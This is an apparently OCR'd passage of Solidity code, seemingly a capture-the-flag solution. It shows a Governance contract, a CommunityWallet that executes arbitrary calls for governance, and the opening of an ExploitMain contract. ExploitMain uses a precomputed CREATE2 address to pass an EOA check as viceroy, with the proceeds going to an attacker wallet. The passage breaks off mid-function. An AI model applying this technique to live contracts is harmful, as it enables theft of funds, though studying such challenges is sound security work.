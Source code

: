 ```
    }

    function createProposal(address viceroy, bytes calldata proposal) external {
        require(
            viceroys[msg.sender].appointedBy != 0 || viceroys[viceroy].approvedVoter[msg.sender],
            "sender not a viceroy or voter"
        );

        uint256 proposalId = uint256(keccak256(proposal));
        proposals[proposalId].data = proposal;
    }

    function voteOnProposal(uint256 proposal, bool inFavor, address viceroy) external {
        require(proposals[proposal].data.length != 0, "proposal not found");
        require(viceroys[viceroy].approvedVoter[msg.sender], "Not an approved voter");
        require(!alreadyVoted[msg.sender], "Already voted");
        if (inFavor) {
            proposals[proposal].votes += 1;
        }
        alreadyVoted[msg.sender] = true;
    }

    function executeProposal(uint256 proposal) external {
        require(proposals[proposal].votes >= 10, "Not enough votes");
        (bool res,) = address(communityWallet).call(proposals[proposal].data);
        require(res, "call failed");
    }
}

contract CommunityWallet {
    address public governance;

    constructor(address _governance) payable {
        governance = _governance;
    }

    function exec(address target, bytes calldata data, uint256 value) external {
        require(msg.sender == governance, "Caller is not governance contract");
        (bool res,) = target.call{value: value}(data);
        require(res, "call failed");
    }

    fallback() external payable {}
}

contract ExploitMain {
    using Create2Sample for address;

    function exploit(Governance governance, address attackerWallet) public {
        //Precompute viceroy address
        bytes memory viceroyByteCode = getViceroyByteCode(address(governance), attackerWallet);
        address viceroyPrecomputeAddress = address(this).precomputeAddress(bytes32(uint256(99)), viceroyByteCode);

        //Appoint viceroy with precomputed address
        //Precomputed address will not have any code so it will be considered EOA
        governance.appointViceroy(viceroyPrecomputeAddress, 1);

        //Deploy ExploitViceroyEOA with precomputed address
        new ExploitViceroyEOA{salt: bytes32(uint256(99))}(address(governance), attackerWallet);
    }

    function getViceroyByteCode(
```